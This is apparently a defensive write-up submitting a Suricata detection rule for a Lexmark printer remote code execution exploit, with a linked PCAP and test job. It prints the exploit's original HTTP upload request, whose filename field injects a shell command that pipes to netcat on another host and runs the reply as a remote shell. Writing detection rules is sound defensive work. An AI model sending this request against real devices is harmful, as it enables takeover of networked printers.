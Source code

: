 # ET Open Submission
### January 25th, 2023
### Lexmark RCE Exploit Detected


## Resources

1. https://github.com/blasty/lexmark

Lexmark RCE 0-Day as of January 10th, 2023

Without an actual Lexmark printer I am making some assumptions but the initial POST is mostly all I needed to confirm this wasn't previously being detected and can be detected based on it.

Below is the initial POST from the exploit given by blasty.

```POST /webglue/uploadfile/ImportFaxLogo HTTP/1.1
Host: 192.168.2.1
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 188
Content-Type: multipart/form-data; boundary=be74f00990243272ae1a2528f31c16e0

--be74f00990243272ae1a2528f31c16e0
Content-Disposition: form-data; name="x"; filename="x"

lol;";sh /tmp/xyz # "; id | nc 192.168.2.29 1912 | sh # 
--be74f00990243272ae1a2528f31c16e0--
```

I generated a Flowsynth PCAP from this info. [Download it here](flowsynth.pcap)

## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any msg:"ET Exploit (Lexmark Malicious File Upload Detected)"; flow:established,to_server; http.method; content:"POST"; bsize:4; http.uri; content:"/webglue/uploadfile/ImportFaxLogo"; bsize:33; fast_pattern; http.request_body; content:"Content-Disposition:"; nocase; content:"name="; nocase; content:"filename="; nocase; within:255; pcre:"/(?:[\x60\x3b\x7c\x26]|%60|%3b|%7c|%26|(?:[\x3c\x3e\x24]|%3c|%3e|%24)(?:\x28|%28))/Ri"; reference:url,https://github.com/blasty/lexmark; classtype:exploit-activity; sid:1; rev:1;)
```

This link **should** last for 30 days. If not, just use the pcap to recreate it.

[Dalton Job ID](https://dalton.centraliowacybersec.com/dalton/coverage/job/1ac0f73a37a2378e)

## Downloads

[Flowsynth PCAP](flowsynth.pcap)
